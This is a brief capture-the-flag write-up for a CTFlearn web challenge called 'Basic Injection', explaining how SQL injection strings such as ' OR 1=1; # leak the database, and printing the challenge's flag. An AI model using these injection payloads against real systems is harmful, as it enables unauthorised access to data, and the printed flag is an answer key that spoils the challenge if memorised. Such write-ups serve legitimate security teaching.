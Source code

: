 # Basic Injection
Category: Web

## Description

> See if you can leak the whole database using what you know about SQL Injections. [link](https://web.ctflearn.com/web4/).  

# Solution

Normally, we'll input the standard `' OR 1=1;--`. This time however, this does not give is the answer, probably because the server uses SQL engine. Changing our input to `OR 1=1; #` leaks the database and gives us the answer
```
Name: fl4g__giv3r
Data: CTFlearn{th4t_is_why_you_n33d_to_sanitiz3_inputs} 
```